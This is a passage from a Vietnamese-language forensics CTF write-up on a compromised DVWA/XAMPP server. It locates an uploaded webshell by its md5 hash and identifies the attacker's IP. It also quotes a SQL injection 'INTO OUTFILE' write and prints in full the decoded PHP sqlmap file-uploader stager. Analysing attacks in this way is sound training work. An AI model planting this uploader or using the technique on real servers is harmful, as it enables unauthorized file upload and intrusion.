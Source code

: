 
### 16. One of the uploaded files by the attacker has an md5 that starts with "559411". Provide the full hash.

```
└─$ find xampp/ -type f -exec md5sum {} \; | grep -i 559411                                                                                                           
5594112b531660654429f8639322218b  xampp/htdocs/DVWA/webshell.php
```

### 17. The attacker used Command Injection to add user "hacker" to the "Remote Desktop Users" Group. Provide the IP address that was part of the executed command?

##### Dựa vào các thông tin đã biết trong acccess.log ta có thể xác nhận rằng ip của attacker là `192.168.56.102`
##### Ngoài ra ta cũng có thể tìm thấy thông qua file memory
![image](https://hackmd.io/_uploads/BJ_AInc5ye.png)

### 18. The attacker dropped a shellcode through SQLi vulnerability. The shellcode was checking for a specific version of PHP. Provide the PHP version number?

##### Tiếp tục quay lại với access.log, mình tìm thấy 1 yêu cầu HTTP GET có chứa một cuộc tấn công SQL Injection (SQLi). Cụ thể, đây là một yêu cầu cố gắng chèn mã PHP vào một tệp trên máy chủ thông qua lỗ hổng SQLi. Đoạn mã chính đã bị mã hóa hex.
![image](https://hackmd.io/_uploads/rkU4qhcc1e.png)
##### `LIMIT 0,1 INTO OUTFILE '/xampp/htdocs/tmpudvfh.php'` yêu cầu MySQL ghi kết quả truy vấn ra một tệp mới có tên tmpudvfh.php tại thư mục /xampp/htdocs/ bằng cách ghi các byte tương ứng vào tệp. 
##### Để xác định nội dung file `tmpudvfh.php` ta cần chuyển đổi nó từ hex về dạng ascii
![image](https://hackmd.io/_uploads/Hy_4gA55yg.png)
```python
<?php
if (isset($_REQUEST["upload"])){$dir=$_REQUEST["uploadDir"];if (phpversion()<'4.1.0'){$file=$HTTP_POST_FILES["file"]["name"];@move_uploaded_file($HTTP_POST_FILES["file"]["tmp_name"],$dir."/".$file) or die();}else{$file=$_FILES["file"]["name"];@move_uploaded_file($_FILES["file"]["tmp_name"],$dir."/".$file) or die();}@chmod($dir."/".$file,0755);echo "File uploaded";}else {echo "<form action=".$_SERVER["PHP_SELF"]." method=POST enctype=multipart/form-data><input type=hidden name=MAX_FILE_SIZE value=1000000000><b>sqlmap file uploader</b><br><input name=file type=file><br>to directory: <input type=text name=uploadDir value=\\xampp\\htdocs\\> <input type=submit name=upload value=upload></form>";}
?>
```
##### Đoạn mã này là một file uploader cơ bản, cho phép người dùng chọn file, xác định thư mục đích và upload file lên máy chủ sử dụng các phiên bản php quanh phiên bản `4.1.0`